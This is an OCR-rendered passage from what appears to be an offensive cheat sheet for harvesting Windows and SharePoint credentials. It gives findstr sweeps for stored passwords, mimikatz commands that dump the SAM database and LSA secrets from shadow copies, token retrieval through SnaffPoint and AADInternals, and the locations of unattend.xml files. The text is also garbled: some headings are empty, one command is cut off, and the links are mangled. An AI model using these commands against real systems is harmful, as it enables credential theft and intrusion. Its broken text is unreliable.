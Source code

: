 **LAPS Expiration Protection Enabled: PwdExpirationProtectionEnabled**

#### Search for file contents

```
cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt
findstr /si password *.xml *.ini *.txt *.config 2 >nul >> results.txt
findstr /spin "password" *.*
```

**Also search in remote places such as SMB Shares and SharePoint:**

**Search passwords in SharePoint: nheiniger/SnaffPoint (must be compiled first, for**

**referencing issue see: https://tinyurl.com/28xlvo33/pull/6)**

```
mimikatz> token::whoami /full
```

```
# List shadow copies available
mimikatz> misc::shadowcopies
```

```
# Extract account from SAM databases
mimikatz> lsadump::sam /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /sam:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM
```

```
# Extract secrets from SECURITY
mimikatz> lsadump::secrets /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /security:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY
```

```
# First, retrieve a token
## Method 1: using SnaffPoint binary
$token = (.\GetBearerToken.exe https://tinyurl.com/ 2 akdbt52)
## Method 2: using AADInternals
Install-Module AADInternals -Scope CurrentUser
Import-Module AADInternals
$token = (Get-AADIntAccessToken -ClientId "9bc3ab49-b65d-410a-85ad-de819febfddc" -Tenant
```

**Search passwords in SMB Shares: SnaffCon/Snaffler**

#### Search for a file with a certain filename

#### Search the registry for key names and passwords

#### Passwords in unattend.xml

**Location of the unattend.xml files.**

```
C:\unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```
